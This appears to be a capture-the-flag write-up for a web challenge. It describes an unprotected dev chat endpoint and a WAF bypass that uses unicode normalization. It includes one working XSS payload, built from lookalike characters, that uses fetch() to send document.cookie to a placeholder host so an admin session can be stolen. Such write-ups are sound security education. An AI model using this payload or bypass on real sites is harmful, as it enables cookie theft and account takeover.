

# Writeup

Checking the login page reveals a link to /dev which contains a simple message saying that the dev portal is under development and to checkout /devchat if you developer access has already been provisioned.
However, going to /devchat just works because of poor restrictions on the endpoint.

There is a very interesting message sent by john and wick in the devchat hinting at unicode normalization and using html escapes on the profile page.



Using this information and editing the profile page with regular xss payloads should not work as there is a waf running on the backend checking for any bad characters.

However, after replacing a few of the characters with unicode characters and attempting to change the username works as the data is being normalized after being passed into the waf.

Using a payload like this to make a request to a request catcher:

```
﹤ˢcrⁱpt﹥fetch("http://blah/?c="+document.cookie)﹤/ˢcrⁱpt﹥
```

We can leak an admin cookie which can be then used to log into the admin portal which was mentioned on the /dev page.